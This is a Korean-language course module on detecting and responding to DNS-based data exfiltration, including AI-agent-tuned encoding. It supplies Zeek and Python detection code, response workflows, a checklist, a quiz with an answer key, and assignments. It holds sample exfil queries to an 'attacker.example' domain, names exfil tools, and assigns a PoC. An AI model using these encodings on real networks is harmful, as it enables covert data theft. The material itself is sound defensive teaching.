






# Week 10: DNS Exfiltration + AI 인코딩 — 방화벽을 지나가는 조용한 누출

## 이번 주의 위치
데이터 유출의 마지막 단계에서 공격자는 *허용된 채널*을 찾는다. DNS는 거의 *모든 방화벽*이 허용한다. 에이전트는 **고효율 인코딩 + 적응형 타이밍**으로 DNS 쿼리 안에 데이터를 감춘다. 본 주차는 이 *은밀한 유출*의 IR을 다룬다.

## 학습 목표
- DNS 기반 exfiltration의 대표 기법 4가지
- 에이전트가 *인코딩·청크 크기·지연*을 자동 최적화하는 과정
- 6단계 IR 절차를 *저속 지속 누출*에 적용
- DNS 로깅·Zeek·EDR의 탐지 축
- Egress *통제·가시성*의 재설계

## 전제 조건
- C19·C20 w1~w9
- DNS 프로토콜 기초
- 패킷 분석 (tshark·Zeek)

## 강의 시간 배분
(공통)

---

## 용어 해설

| 용어 | 설명 |
|------|------|
| **DNS tunneling** | DNS 쿼리에 데이터 숨김 |
| **Subdomain encoding** | 서브도메인 레벨에 데이터 인코딩 |
| **DGA** | Domain Generation Algorithm |
| **DoH·DoT** | DNS over HTTPS·TLS |
| **Sinkhole** | 악성 도메인 응답 대체 |
| **RPZ** | Response Policy Zone |

---

# Part 1: 공격 해부 (40분)

## 1.1 DNS Exfiltration 4 기법



## 1.2 기본 예 — Subdomain 인코딩

```
원본 데이터: "HELLO"
인코딩 (hex): 48 45 4c 4c 4f
DNS 쿼리: 48454c4c4f.attacker.example
```

## 1.3 에이전트의 *자동 최적화*



에이전트는 *방어 측의 샘플링 속도*를 추정하고 *그보다 느리게* 누출한다.

## 1.4 DoH의 강화

DoH(DNS over HTTPS)는 DNS 쿼리를 *HTTPS 안에 숨김*. 전통 DNS 방화벽·IDS가 보지 못함.

```
공격자 에이전트 → DoH 서버(1.1.1.1) → 실제 권한 서버
(중간 조직은 HTTPS 한 덩어리로만 보임)
```

## 1.5 DGA — 도메인 생성 알고리즘

매일 수천 도메인 생성, 공격자는 그중 소수만 사전 등록. 방어 측의 도메인 블랙리스트가 무력.

---

# Part 2: 탐지 (30분)

## 2.1 DNS 기반 신호



## 2.2 도메인 엔트로피 계산

```python
import math
from collections import Counter

def shannon_entropy(s: str) -> float:
    if not s: return 0
    c = Counter(s)
    total = len(s)
    return -sum((f/total)*math.log2(f/total) for f in c.values())

# 정상 도메인: ~3.5 내외
# 인코딩 도메인: ~5+
```

## 2.3 Zeek 기반 탐지

```zeek
event dns_request(c: connection, msg: dns_msg, query: string, qtype: count, qclass: count) {
    if (|query| > 50) {
        NOTICE([$note=DNS::Long_Query, $msg=query, $conn=c]);
    }
}
```

## 2.4 Bastion 스킬 — `detect_dns_exfil`

```python
def detect_dns_exfil(dns_events):
    suspects = []
    for e in dns_events:
        score = 0
        if len(e.query) > 50: score += 0.3
        if shannon_entropy(e.query) > 4.5: score += 0.3
        if e.src_ip_requests_last_5min > 200: score += 0.2
        if e.is_doh: score += 0.2
        if score > 0.5: suspects.append((e.src_ip, e.query, score))
    return suspects
```

---

# Part 3: 분석 (30분)

## 3.1 저속 누출의 *긴 수집 윈도우*

DNS exfil은 *몇 시간~며칠* 누출될 수 있음. 분석은 **긴 시간 윈도우**가 필요.



## 3.2 재조합 — 누출 본문 복원

방어자가 *공격자 도메인*의 쿼리를 캡처하면 인코딩 해독으로 *유출 본문 추정*.

```
캡처: 48454c4c4f.attacker.example
     20776f726c64.attacker.example
     21.attacker.example

hex → ASCII: "HELLO world!"
```

## 3.3 범위 평가
- 어떤 호스트·사용자가 공격자 도메인에 *가장 많이 쿼리*했나
- 쿼리에 포함된 데이터 *패턴*(이메일·카드번호·토큰)
- DoH 엔드포인트 사용 이력

---

# Part 4: 초동대응 (40분)

## 4.1 Human 흐름
```
H1. DNS 경보 수신
H2. 공격자 도메인 식별
H3. 내부 DNS에 차단 추가
H4. 외부 DNS (DoH) 차단 결정
H5. 유출량 추정
```

## 4.2 Agent 흐름



## 4.3 비교표

| 축 | Human | Agent |
|----|-------|-------|
| 도메인 차단 | 20~60분 | **수 분 (RPZ 자동)** |
| 유출량 추정 | 수 시간 | **즉시 (인코딩 해독)** |
| 법무 보고 | *사람* | 사람 |

---

# Part 5: 보고·상황 공유 (30분)

## 5.1 유출 본문의 *처리*

복원된 본문이 *개인정보·기밀*을 포함하면 법적 통지.

- GDPR·개인정보보호법 72시간 통지
- 고객 개별 통지 (해당 시)

## 5.2 임원 브리핑

```markdown
# Incident — DNS Exfiltration (D+2h)

**What happened**: 내부 호스트에서 DoH 기반 DNS 누출 탐지. Bastion
                   즉시 도메인 sinkhole·egress 제한.

**Impact**: 24시간 누출 본문 약 2MB 추정 (복원 중). 환경변수·로그 일부.

**Ask**: DNS 정책(DoH 차단·내부 DNS 강제) 배포 승인 (D+3).
```

---

# Part 6: 재발방지 (20분)

## 6.1 DNS 통제 5축



## 6.2 체크리스트
- [ ] 외부 DoH 엔드포인트 차단 (443/TCP 특정 IP)
- [ ] 내부 DNS 사용 강제 (DHCP)
- [ ] 모든 DNS 쿼리 로깅 (Zeek)
- [ ] RPZ 피드 자동 업데이트
- [ ] Bastion DNS 이상 탐지 상시
- [ ] egress default-deny

---

## 퀴즈 (10문항)

**Q1.** DNS가 exfil 채널로 선호되는 이유는?
- (a) 속도
- (b) **거의 모든 방화벽이 DNS 허용**
- (c) 암호화
- (d) UI

**Q2.** Subdomain 인코딩의 기본 도구는?
- (a) HTTP
- (b) **hex·base32 인코딩된 데이터를 서브도메인에 담음**
- (c) XML
- (d) JSON

**Q3.** DoH가 방어에 *치명적*인 이유는?
- (a) 느려서
- (b) **HTTPS 안에 DNS 쿼리 숨겨 기존 DNS 방화벽 회피**
- (c) 법적 제약
- (d) 호환성

**Q4.** DGA가 블랙리스트를 무력화하는 방식은?
- (a) 암호화
- (b) **매일 수천 도메인 자동 생성 — 사전 등록 불가**
- (c) 속도
- (d) 라이선스

**Q5.** 쿼리 엔트로피 탐지의 임계는?
- (a) 1.0
- (b) **4.5 이상 (정상 약 3.5)**
- (c) 10.0
- (d) 0.5

**Q6.** Zeek의 역할은?
- (a) 방화벽
- (b) **네트워크 트래픽 분석 — DNS·HTTP 구조화 로그**
- (c) 백업
- (d) 서버 관리

**Q7.** RPZ(Response Policy Zone)의 역할은?
- (a) 속도
- (b) **악성 도메인 쿼리 응답을 *내부 sinkhole*로 대체**
- (c) 네트워크 분리
- (d) 로깅

**Q8.** 에이전트 *저속 누출*이 방어에 어려운 이유는?
- (a) 속도
- (b) **한 번에 적은 양 · 긴 시간 — 실시간 탐지 임계 미달**
- (c) 암호화
- (d) 비용

**Q9.** 복원된 유출 본문에 개인정보가 있을 때 *즉시* 해야 할 조치는?
- (a) 공개
- (b) **법무·개인정보보호책임자 통지 + 감독기관 신고 준비**
- (c) 저장
- (d) 삭제

**Q10.** 재발방지 1순위 조치는?
- (a) 로깅 확대
- (b) **외부 DoH 차단 + 내부 DNS 강제**
- (c) 비용 절감
- (d) UI 개선

**정답:** Q1:b · Q2:b · Q3:b · Q4:b · Q5:b · Q6:b · Q7:b · Q8:b · Q9:b · Q10:b

---

## 과제
1. **공격 재현 (필수)**: 간단 DNS exfil PoC — hex 인코딩 데이터 쿼리.
2. **6단계 IR 보고서 (필수)**.
3. **도메인 엔트로피 스크립트 (필수)**: Zeek 또는 Python으로 작성.
4. **(선택)**: 조직 DoH 차단 이행 계획.
5. **(선택)**: RPZ 피드 자동화 설계.

---

## 부록 A. 유명 DNS exfil 도구 (교육적 이해용)

- iodine
- dnscat2
- dnsteal
- DET (Data Exfiltration Toolkit)

공격자 커스텀 도구도 많음. *탐지는 *도구명*이 아니라 *패턴*으로*.

## 부록 B. Zeek 스크립트 출발점

```zeek
module DNSExfil;
const query_length_threshold = 50 &redef;

event dns_request(c: connection, msg: dns_msg, query: string, qtype: count, qclass: count) {
    if (|query| > query_length_threshold) {
        Log::write(DNSExfil::LOG, [$ts=network_time(), $src=c$id$orig_h,
                                   $query=query, $qlen=|query|]);
    }
}
```
